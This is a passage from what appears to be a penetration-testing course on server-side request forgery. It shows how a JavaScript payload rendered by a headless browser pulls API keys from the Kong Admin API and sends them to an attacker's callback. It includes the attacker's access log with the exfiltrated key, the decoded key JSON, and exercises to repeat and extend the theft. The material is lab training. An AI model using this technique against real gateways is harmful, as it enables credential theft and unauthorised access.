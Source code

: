 Modify the JavaScript function to avoid data truncation by sending the data in multiple requests if the data is longer than 1024 characters.

1

(Docker Inc, 2021), [https://docs.docker.com/network/bridge/#differences-between-user-defined-bridges-and-the-default-bridge](https://docs.docker.com/network/bridge/#differences-between-user-defined-bridges-and-the-default-bridge) [↩︎](https://portal.offsec.com/courses/web-300-687/learning/server-side-request-forgery-32493/wrapping-up-32524/wrapping-up-32531#fnref-local_id_424-1)

### 9.6.2. Stealing Credentials from Kong Admin API

Next, we'll turn our focus to stealing credentials from the Kong Admin API with our JavaScript payload. As a reminder, when we first called the /render endpoint through the Kong API Gateway, it responded with "No API key found in request". Let's try to find that API key in Kong's Admin API.

We can find the Admin API endpoint that returns API keys in Kong's documentation.[1](https://portal.offsec.com/courses/web-300-687/learning/server-side-request-forgery-32493/wrapping-up-32524/wrapping-up-32531#fn-local_id_425-1) Let's update our JavaScript function to call /key-auths, call the Render service, and then check access.log.

```
kali@kali:~$ sudo tail /var/log/apache2/access.log
...
192.168.120.135 - - [25/Feb/2021:13:34:24 -0500] "GET /exfil.html HTTP/1.1" 200 569 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
192.168.120.135 - - [25/Feb/2021:13:34:24 -0500] "GET /callback?%7B%22next%22%3Anull%2C%22data%22%3A%5B%7B%22created_at%22%3A1613767827%2C%22id%22%3A%22c34c38b6-4589-4a1e-a8f7-d2277f9fe405%22%2C%22tags%22%3Anull%2C%22ttl%22%3Anull%2C%22key%22%3A%22SBzrCb94o9JOWALBvDAZLnHo3s90smjC%22%2C%22consumer%22%3A%7B%22id%22%3A%22a8c78b54-1d08-43f8-acd2-fb2c7be9e893%22%7D%7D%5D%7D HTTP/1.1" 404 491 "http://192.168.118.3/exfil.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
```

> Listing 49 - JavaScript callback in access.log

After decoding the data, we find the API key.

```
{"next":null,"data":[{
  "created_at":1613767827,
  "id":"c34c38b6-4589-4a1e-a8f7-d2277f9fe405",
  "tags":null,
  "ttl":null,
  "key":"SBzrCb94o9JOWALBvDAZLnHo3s90smjC",
  "consumer":{"id":"a8c78b54-1d08-43f8-acd2-fb2c7be9e893"}}]}
```

> Listing 50 - Decoded data

Excellent. Now that we have the API key, we should be able to call the render endpoint through the API gateway without needing the SSRF vulnerability.

#### Exercises

1. Recreate the steps above to gain access to the API key.
2. Without calling the File Import service, recreate the attack to steal credentials from Kong by calling the Render service directly with the API key.
3. Adjust your HTML payload so the credentials are included in the PDF the service returns.
